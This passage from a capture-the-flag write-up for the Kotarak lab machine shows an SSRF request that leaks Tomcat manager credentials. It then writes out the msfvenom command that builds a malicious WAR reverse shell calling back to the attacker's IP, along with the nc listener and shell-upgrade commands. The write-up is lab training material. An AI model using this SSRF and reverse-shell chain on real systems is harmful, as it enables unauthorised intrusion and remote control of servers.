 Now that I can access different resources and paths, I have to adjust the **URLs** for the **SSRF** to work, after some test and error I succeed to get the path and credentials of the **Tomcat** server in the source code of one of the files.

```html
# http://10.129.1.117:60000/url.php?path=http://127.0.0.1:888/?doc=backup
# [Ctrl^u] Tomcat Credentials
```

<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/kotarak_writeup/Kotarak_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The credentials and path are correct, allowing me to access the **Tomcat** server administration panel and the **[steps I need to follow to engage the machine](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html?highlight=tomcat#tomcat){:target="_blank"}** are already known to me. I must generate with `msfvenom` a malicious **.war** file that is in charge of sending me a **Reverse Shell** and upload it to the server. If everything works correctly, with `nc` I open port **443** on my attacking machine waiting for the remote connection and access the malicious file from my browser. Once I get access to the target machine I perform a console treatment to have a better mobility with the enumeration commands, what I still can't see is the content of the first flag.

> A **[WAR](https://www.oreilly.com/library/view/learning-java-4th/9781449372477/ch15s03.html){:target="_blank"}** file is an archive that contains all the parts of a web application: Java class files for servlets and web services, JSPs, HTML pages, images, and other resources. The WAR file is simply a JAR file (which is itself a fancy ZIP file) with specified directories for the Java code and one designated configuration file: the web.xml file, which tells the application server what to run and how to run it. WAR files always have the extension .war, but they can be created and read with the standard jar tool.

```bash
# http://10.129.1.117:8080/manager/html                                       :)
# :)     malicius WAR!!

msfvenom -l payloads | grep jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.238 LPORT=443 -f war -o reverse.war

sudo nc -nlvp 443

whoami
hostname
hostname -I

# Console Treatment
script /dev/null -c bash

which python
python -c 'import pty;pty.spawn("/bin/bash")'
# :)
[Ctrl^Z]
stty raw -echo; fg
reset xterm
```